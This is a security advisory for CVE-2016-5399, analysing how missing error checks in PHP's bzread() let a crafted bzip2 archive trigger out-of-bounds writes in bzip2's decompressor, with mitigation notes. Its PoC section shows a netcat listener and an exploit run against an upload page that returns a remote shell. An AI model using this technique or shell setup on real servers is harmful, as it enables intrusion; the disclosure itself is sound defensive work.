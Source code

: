 #+title: CVE-2016-5399: php: out-of-bounds write in bzread()
#+author: Hans Jerry Illikainen
#+email: hji@dyntopia.com

* Details
PHP 7.0.8, 5.6.23 and 5.5.37 does not perform adequate error handling in
its ~bzread()~ function:

php-7.0.8/ext/bz2/bz2.c
#+begin_src c
364 static PHP_FUNCTION(bzread)
365 {
...
382     ZSTR_LEN(data) = php_stream_read(stream, ZSTR_VAL(data), ZSTR_LEN(data));
383     ZSTR_VAL(data)[ZSTR_LEN(data)] = '\0';
384
385     RETURN_NEW_STR(data);
386 }
#+end_src

php-7.0.8/ext/bz2/bz2.c
#+begin_src c
210 php_stream_ops php_stream_bz2io_ops = {
211     php_bz2iop_write, php_bz2iop_read,
212     php_bz2iop_close, php_bz2iop_flush,
213     "BZip2",
214     NULL, /* seek */
215     NULL, /* cast */
216     NULL, /* stat */
217     NULL  /* set_option */
218 };
#+end_src

php-7.0.8/ext/bz2/bz2.c
#+begin_src c
136 /* {{{ BZip2 stream implementation */
137
138 static size_t php_bz2iop_read(php_stream *stream, char *buf, size_t count)
139 {
140     struct php_bz2_stream_data_t *self = (struct php_bz2_stream_data_t *)stream->abstract;
141     size_t ret = 0;
142
143     do {
144         int just_read;
...
148         just_read = BZ2_bzread(self->bz_file, buf, to_read);
149
150         if (just_read < 1) {
151             stream->eof = 0 == just_read;
152             break;
153         }
154
155         ret += just_read;
156     } while (ret < count);
157
158     return ret;
159 }
#+end_src

The erroneous return values for Bzip2 are as follows:

bzip2-1.0.6/bzlib.h
#+begin_src c
038 #define BZ_SEQUENCE_ERROR    (-1)
039 #define BZ_PARAM_ERROR       (-2)
040 #define BZ_MEM_ERROR         (-3)
041 #define BZ_DATA_ERROR        (-4)
042 #define BZ_DATA_ERROR_MAGIC  (-5)
043 #define BZ_IO_ERROR          (-6)
044 #define BZ_UNEXPECTED_EOF    (-7)
045 #define BZ_OUTBUFF_FULL      (-8)
046 #define BZ_CONFIG_ERROR      (-9)
#+end_src

Should the invocation of BZ2_bzread() fail, the loop would simply be
broken out of (bz2.c:152) and execution would continue with bzread()
returning RETURN_NEW_STR(data).

According to the manual [1], bzread() returns FALSE on error; however
that does not seem to ever happen.

Due to the way that the bzip2 library deals with state, this could
result in an exploitable condition if a user were to call bzread()
after an error, eg:

#+begin_src php
$data = "";
while (!feof($fp)) {
    $res = bzread($fp);
    if ($res === FALSE) {
        exit("ERROR: bzread()");
    }
    $data .= $res;
}
#+end_src


* Exploitation
One way the lack of error-checking could be abused is through
out-of-bound writes that may occur when ~BZ2_decompress()~ (BZ2_bzread()
-> BZ2_bzRead() -> BZ2_bzDecompress() -> BZ2_decompress()) processes the
~pos~ array using user-controlled selectors as indices:

bzip2-1.0.6/decompress.c
#+begin_src c
106 Int32 BZ2_decompress ( DState* s )
107 {
108    UChar      uc;
109    Int32      retVal;
...
113    /* stuff that needs to be saved/restored */
114    Int32  i;
115    Int32  j;
...
118    Int32  nGroups;
119    Int32  nSelectors;
...
167    /*restore from the save area*/
168    i           = s->save_i;
169    j           = s->save_j;
...
172    nGroups     = s->save_nGroups;
173    nSelectors  = s->save_nSelectors;
...
195    switch (s->state) {
...
286       /*--- Now the selectors ---*/
287       GET_BITS(BZ_X_SELECTOR_1, nGroups, 3);
288       if (nGroups < 2 || nGroups > 6) RETURN(BZ_DATA_ERROR);
289       GET_BITS(BZ_X_SELECTOR_2, nSelectors, 15);
290       if (nSelectors < 1) RETURN(BZ_DATA_ERROR);
291       for (i = 0; i < nSelectors; i++) {
292          j = 0;
293          while (True) {
294             GET_BIT(BZ_X_SELECTOR_3, uc);
295             if (uc == 0) break;
296             j++;
297             if (j >= nGroups) RETURN(BZ_DATA_ERROR);
298          }
299          s->selectorMtf[i] = j;
300       }
301
302       /*--- Undo the MTF values for the selectors. ---*/
303       {
304          UChar pos[BZ_N_GROUPS], tmp, v;
305          for (v = 0; v < nGroups; v++) pos[v] = v;
306
307          for (i = 0; i < nSelectors; i++) {
308             v = s->selectorMtf[i];
309             tmp = pos[v];
310             while (v > 0) { pos[v] = pos[v-1]; v--; }
311             pos[0] = tmp;
312             s->selector[i] = tmp;
313          }
314       }
315
...
613    save_state_and_return:
614
615    s->save_i           = i;
616    s->save_j           = j;
...
619    s->save_nGroups     = nGroups;
620    s->save_nSelectors  = nSelectors;
...
640    return retVal;
641 }
#+end_src

bzip2-1.0.6/decompress.c
#+begin_src c
070 #define GET_BIT(lll,uuu)                          \
071    GET_BITS(lll,uuu,1)
#+end_src

bzip2-1.0.6/decompress.c
#+begin_src c
043 #define GET_BITS(lll,vvv,nnn)                     \
044    case lll: s->state = lll;                      \
045    while (True) {                                 \
...
065    }
#+end_src

If j >= nGroups (decompress.c:297), BZ2_decompress() would save its
state and return BZ_DATA_ERROR.  If the caller don't act on the
erroneous retval, but rather invokes BZ2_decompress() again, the saved
state would be restored (including ~i~ and ~j~) and the switch statement
would transfer execution to the BZ_X_SELECTOR_3 case -- ie. the
preceding initialization of ~i = 0~ and ~j = 0~ would not be executed.

In pseudocode it could be read as something like:

#+begin_src c
i = s->save_i;
j = s->save_j;

switch (s->state) {
case BZ_X_SELECTOR_2:
    s->state = BZ_X_SELECTOR_2;

    nSelectors = get_15_bits...

    for (i = 0; i < nSelectors; i++) {
        j = 0;
        while (True) {
            goto iter;
case BZ_X_SELECTOR_3:
iter:
    s->state = BZ_X_SELECTOR_3;

    uc = get_1_bit...

    if (uc == 0) goto done;
    j++;
    if (j >= nGroups) {
        retVal = BZ_DATA_ERROR;
        goto save_state_and_return;
    }
    goto iter;
done:
    s->selectorMtf[i] = j;
#+end_src

An example selector with nGroup=6:
#+begin_src
11111111111110
||||| `|||||| `- goto done; s->selectorMtf[i] = 13;
 `´     j++;
j++;    goto save_state_and_return;
goto iter;
#+end_src

Since the selectors are used as indices to ~pos~ in the subsequent loop,
an ~nSelectors~ amount of <= 255 - BZ_N_GROUPS bytes out-of-bound writes
could occur if BZ2_decompress() is invoked in spite of a previous error.

bzip2-1.0.6/decompress.c
#+begin_src c
304          UChar pos[BZ_N_GROUPS], tmp, v;
305          for (v = 0; v < nGroups; v++) pos[v] = v;
306
307          for (i = 0; i < nSelectors; i++) {
308             v = s->selectorMtf[i];
309             tmp = pos[v];
310             while (v > 0) { pos[v] = pos[v-1]; v--; }
311             pos[0] = tmp;
312             s->selector[i] = tmp;
313          }
#+end_src

bzip2-1.0.6/bzlib_private.h
#+begin_src c
121 #define BZ_N_GROUPS 6
#+end_src


* PoC
Against FreeBSD 10.3 amd64 with php-fpm 7.0.8 and nginx from the
official repo [2]:

#+begin_src sh
$ nc -v -l 1.2.3.4 5555 &
Listening on [1.2.3.4] (family 0, port 5555)

$ python exploit.py --ip 1.2.3.4 --port 5555 http://target/upload.php
[*] sending archive to http://target/upload.php (0)

Connection from [target] port 5555 [tcp/*] accepted (family 2, sport 49479)
$ fg
id
uid=80(www) gid=80(www) groups=80(www)

uname -imrsU
FreeBSD 10.3-RELEASE-p4 amd64 GENERIC 1003000

/usr/sbin/pkg query -g "=> %n-%v" php*
=> php70-7.0.8
=> php70-bz2-7.0.8

cat upload.php
<?php
$fp = bzopen($_FILES["file"]["tmp_name"], "r");
if ($fp === FALSE) {
    exit("ERROR: bzopen()");
}

$data = "";
while (!feof($fp)) {
    $res = bzread($fp);
    if ($res === FALSE) {
        exit("ERROR: bzread()");
    }
    $data .= $res;
}
bzclose($fp);
?>
#+end_src


* Solution
This issue has been assigned CVE-2016-5399 and can be mitigated by
calling bzerror() on the handle between invocations of bzip2.

Another partial solution has been introduced in PHP 7.0.9 and 5.5.38,
whereby the stream is marked as EOF when an error is encountered;
allowing this flaw to be avoided by using feof().  However, the PHP
project considers this to be an issue in the underlying bzip2
library[3].


* Footnotes

[1] https://secure.php.net/manual/en/function.bzread.php

[2] https://github.com/dyntopia/exploits/tree/master/CVE-2016-5399

[3] https://bugs.php.net/bug.php?id=72613
